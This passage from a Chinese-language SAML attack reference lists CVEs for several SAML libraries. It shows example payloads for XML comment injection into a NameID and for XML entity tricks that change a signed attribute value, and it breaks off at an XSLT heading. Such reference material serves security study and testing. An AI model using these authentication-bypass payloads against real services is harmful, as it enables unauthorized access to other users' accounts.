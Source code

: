 * OneLogin - python-saml - CVE-2017-11427
* OneLogin - ruby-saml - CVE-2017-11428
* Clever - saml2-js - CVE-2017-11429
* OmniAuth-SAML - CVE-2017-11430
* Shibboleth - CVE-2018-0489
* Duo Network Gateway - CVE-2018-7340

研究人员注意到，如果攻击者在用户名字段中插入注释，从而破坏用户名，攻击者可能会获得对合法用户帐户的访问权限。

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```

其中 `user@user.com` 是用户名的第一部分，`.evil.com` 是第二部分。

### XML 外部实体

另一种利用方式是使用 `XML 实体` 来绕过签名验证，因为内容在 XML 解析时不会改变。

在以下示例中：

* `&s;` 将解析为字符串 `"s"`
* `&f1;` 将解析为字符串 `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

服务提供商接受了 SAML 响应。由于漏洞，服务提供商应用程序报告“taf”作为“uid”属性的值。

### 可扩展样式表语言转换
